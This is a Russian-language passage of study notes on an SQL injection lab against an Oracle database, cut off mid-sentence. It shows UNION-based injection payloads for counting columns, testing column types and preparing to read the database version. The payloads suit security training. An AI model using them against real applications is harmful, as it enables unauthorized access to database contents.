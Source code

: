 ```sql
' order by 3 --  
```

- Result: **500 Internal Server Error**

Если получаем ошибку от сервера, то это значит мы не правильно задали индекс столбца, выполнять нужно до тех пор пока сервер не выполнить запрос корректно.

```sql
' order by 2 --
```

![[Pasted image 20240711080308.png]]

Ааа, в этой лаборатории 2 столбца. То есть увеличиваем количество столбцов в `order by` до тех пор пока не получим ошибку, если получим ошибку, значит мы уже задали максимальный идекс столбца.

**Второй способ оперделния количество столбцов**

Суть заключается в том чтобы отправить `UNION` с параметром `NULL` до тех пор пока не исчезнет ошибка:

```sql
'UNION SELECT NULL--
'UNION SELECT NULL,NULL--
'UNION SELECT NULL,NULL,NULL --
```

**Определите типы данных столбцов.**

```sql
'UNION SELECT 'a', NULL --  
'UNION SELECT NULL, 'a' --  
'UNION SELECT 'a','a'--
```

Значит оба столбца имеют текстовое поле. Что же у нас получается? Мы должны использовать `UNION SELECT` чтобы вывести данные из таблицы `dual` у которого два столбца.

- Посмотрите на оператор Oracle Select. Исходя из источника, ему нужен `from DUAL`.

```sql
'UNION SELECT 'PAYLOAD' , 'PAYLOAD' FROM DUAL--
```

И так, запрос корректно обрабатывается, значит всё хорошо. Но наша задача вывести версию базы данных Oracle

```sql
SELECT banner FROM v$version
```

Всё бы ничего но мы пропустили условию - основной запрос использует таблицу `dual` который в свою очередь имеет две колонки. Оператор `UNION` используется для объединения результатов двух или более запросов. Для успешного выполнения объединения, запросы должны возвращать одинаковое количество столбцов с совместимыми типами данных. Если основной запрос возвращает два столбца, то и подзапрос с `UNION` должен возвращать два столбца.

Предположим, что исходный запрос выглядит следующим образом:
